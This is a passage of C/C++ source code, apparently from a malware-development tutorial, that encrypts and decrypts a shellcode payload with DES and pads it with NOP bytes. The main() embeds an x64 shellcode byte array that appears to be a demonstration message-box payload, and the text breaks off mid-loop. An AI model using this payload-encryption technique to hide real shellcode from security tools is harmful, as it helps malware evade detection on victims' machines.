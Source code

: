 ```cpp
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    des_encrypt_block(pad, round_keys);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

// function to decrypt the payload
void des_decrypt_payload(unsigned char *payload, int payload_len, uint64_t key) {
  uint64_t round_keys[16];
  generate_round_keys(key, round_keys);

  int i;
  for (i = 0; i < payload_len / BLOCK_SIZE; i++) {
    des_decrypt_block(payload + i * BLOCK_SIZE, round_keys);
  }
  int remaining = payload_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    des_decrypt_block(pad, round_keys);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}


// example usage
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
  int my_payload_len = sizeof(my_payload) - 1;

  uint64_t key = 0x0123456789ABCDEF;

  int pad_len = my_payload_len + (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);


  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
```